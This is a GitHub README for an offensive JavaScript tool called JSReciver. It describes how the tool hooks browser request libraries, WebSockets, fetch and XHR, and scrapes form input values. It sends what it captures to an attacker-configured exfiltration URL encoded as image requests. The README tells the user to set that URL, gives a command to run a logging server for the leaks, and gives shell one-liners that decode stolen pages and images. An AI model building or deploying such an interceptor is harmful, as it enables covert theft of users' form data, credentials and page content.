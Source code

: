 # JSReciver

### JSReciver v0.0 - @j0moz4 

```Edit the var "let STEALER_URI = '';" to your exfiltrationi server URI.```

This JavaScript script intercepts various types of HTTP requests made by different libraries and frameworks, such as:

 - Axios
 - Angular HttpClient
 - jQuery Ajax
 - Superagent
 - Request
 - Got
 - Fetch Mock
 - Vue Resource. 
 
It replaces the original functions used for making requests with modified versions that log information about the requests. The intercepted requests are logged by printing their details, such as the request URL, method, headers, and data, to the console. Additionally, the script includes a function called stealInfo that exfiltrates the intercepted request information to a specified URL. It does so by encoding the request data and sending it as a series of images loaded from the exfiltration URL.
The script also intercepts other web-related operations, such as: 

 - WebSocket connections
 - Beacon requests
 - XMLHttpRequests
 - Fetch API requests. 

It logs information about these operations and exfiltrates them in a similar manner as the intercepted HTTP requests. 
Furthermore, the script scans the webpage for elements with src or href attributes and logs and exfiltrates their values. It also collects data from HTML forms present on the page, including form actions, methods, and input field values. The form data is then logged and exfiltrated as well.
Overall, this script acts as a data interception and exfiltration tool, capturing and potentially sending sensitive information from various web requests and webpage elements to a specified exfiltration URL.

### CREATE WEB SERVER

#### Prepare server:
[https://www.npmjs.com/package/http-server](https://www.npmjs.com/package/http-server)

```sudo http-server --port 8080 -a 0.0.0.0 -d -i --cors > exfiLeaks.log```

### JSREVICER ONELINERS:

#### Detect webpages hash:
```cat exfiLeaks.log | grep "/0/PCFET0NUWVBFIGh0bWw" | awk -F'/' '{print $3}' | awk '!seen[$1]++'```
#### Web pages:
```cat exfiLeaks.log | grep "/exfil/<hash>/" | cut -d"/" -f4- |  awk '!seen[$1]++' | awk -F'.jpg' '{print $1}' | cut -d"/" -f2- | tr -d '\n' | base64 -d```

#### Detect images hash
```cat exfiLeaks.log | grep "/0/iVBORw0KGg" | awk -F'/' '{print $3}' | awk '!seen[$1]++'```
#### Images: 
```cat exfiLeaks.log | awk -F'/exfil/<hash>/' '{print $2}' | cut -d"/" -f2- | awk -F'.jpg' '{print $1}' | awk '!seen[$0]++' | tr -d '\n' | base64 -d > tal.png```

______________________________________________________________________________________________________________________________________________

## POC

##### Start server
![image alt](https://i.imgur.com/EbKGAvu.png "0")

##### Request recived
![image alt](https://i.imgur.com/l7lSTnP.png "1")

##### Extract content 
![image alt](https://i.imgur.com/QlSzAlB.png "2")


**Thnx to:** [https://github.com/hoodoer/XSS-Data-Exfil](https://github.com/hoodoer/XSS-Data-Exfil)
